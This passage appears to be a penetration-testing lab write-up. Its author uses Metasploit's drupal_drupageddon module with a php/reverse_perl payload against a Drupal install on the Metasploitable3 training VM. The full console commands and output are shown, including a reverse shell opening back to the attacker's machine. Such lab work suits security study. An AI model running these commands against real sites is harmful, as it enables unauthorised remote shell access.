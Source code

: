 Opening the file revealed the installed version of Drupal was 7.5.

![Drupal version](./drupal-version.png)

From here, I investigated some exploits and started testing them out against Metasploitable3.
I was specifically selecting any exploits for version 7.5 but was having no luck. In the end, I discovered the `drupal_drupageddon` exploit which was successful against the Drupal install on Metasploitable3.

```none
msf > use exploit/multi/http/drupal_drupageddon

msf exploit(multi/http/drupal_drupageddon) > set rhost 192.168.19.20
rhost => 192.168.19.20

msf exploit(multi/http/drupal_drupageddon) > set targeturi /drupal/
targeturi => /drupal/

msf exploit(multi/http/drupal_drupageddon) > set payload php/reverse_perl 
payload => php/reverse_perl

msf exploit(multi/http/drupal_drupageddon) > exploit

[*] Started reverse TCP handler on 192.168.19.10:4444 
[*] Command shell session 6 opened (192.168.19.10:4444 -> 192.168.19.20:47667) at 2018-07-08 00:06:22 -0400
```

The `targeturi` was set to `/drupal/` instead of root (`/`) as the drupal install was in the `drupal` directory on the Apache web server. After the exploit ran I was, again, unsuccessful! The `whoami` command revealed I was... the `www-data` user. What was very interesting was that the [
Vulnerability & Exploit Database](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon) stated the exploit only worked against Drupal 7.0 and 7.31 (was fixed in 7.32). The server apparently had version 7.5 and was still vulnerable. Anyway, no higher level of access was gained. 

## Resources
